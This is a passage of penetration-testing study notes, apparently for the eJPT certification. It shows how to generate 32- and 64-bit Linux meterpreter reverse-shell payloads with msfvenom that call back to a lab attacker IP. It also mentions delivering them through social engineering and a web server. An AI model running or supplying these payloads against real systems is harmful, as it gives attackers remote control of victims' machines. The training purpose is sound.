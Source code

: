 ```bash
    nim
    nimlang
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript
```

- Generate a Linux payload with `msfvenom`

**32bit payload:**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux_Payloads/payloadx86
```

**64bit payload:**

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux_Payloads/payloadx64
```

- 📌 *Platform and architecture are auto selected if not specified, based on the selected payload*

![](.gitbook/assets/image-20230415192514206.png)

The transferring method onto the target system depends on the type of the social engineering technique.

- **`e.g.`** A simple web server can be set up on the attacker system to serve the payload files and a handler to receive the connection back from the target system
